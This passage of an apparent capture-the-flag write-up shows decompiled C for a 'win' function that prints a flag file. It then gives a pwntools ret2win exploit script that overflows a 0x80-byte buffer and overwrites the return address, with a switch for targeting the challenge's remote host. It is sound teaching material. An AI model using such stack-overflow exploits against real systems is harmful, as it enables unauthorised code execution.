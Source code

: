
* And here's the disassembly of `win` function.

{% code title="win.c" overflow="wrap" lineNumbers="true" %}
```c
void win(void)

{
  int iVar1;
  FILE *__stream;
  char local_11;
  
  __stream = fopen("flag.txt","r");
  if (__stream != (FILE *)0x0) goto LAB_0040126a;
  puts("Please create \'flag.txt\' in this directory with your own debugging flag.");
  FUN_00401120(0);
  do {
    putchar((int)local_11);
LAB_0040126a:
    iVar1 = fgetc(__stream);
    local_11 = (char)iVar1;
  } while (local_11 != -1);
  fclose(__stream);
  return;
}
```
{% endcode %}

* Simply, we've to hijack control flow with ret2win attack, so we can start executing `win` function after `ret` main.
* Here's my exploit script for this challenge.

{% code title="exploit.py" overflow="wrap" lineNumbers="true" %}
```python
#!/usr/bin/env python3
#filename: exploit.py

from pwn import *

context.binary = elf = ELF("./echo", checksec=0)
context.log_level = "debug"

# Prepare the payload.
win_addr = p64(elf.symbols['win'])
payload = b"A"*0x80 # --------------< Buff size.
payload += b"B"*0x8 # --------------< Old RBP.
payload += win_addr # --------------< Jump to win_addr.

# Send the payload.
is_remote = False # change to True if you want to run remotely.

if is_remote:
	io = remote("challenge.ctf.games", 31084)
else:
	io = elf.process()

io.sendline(payload)
io.interactive()
```
{% endcode %}
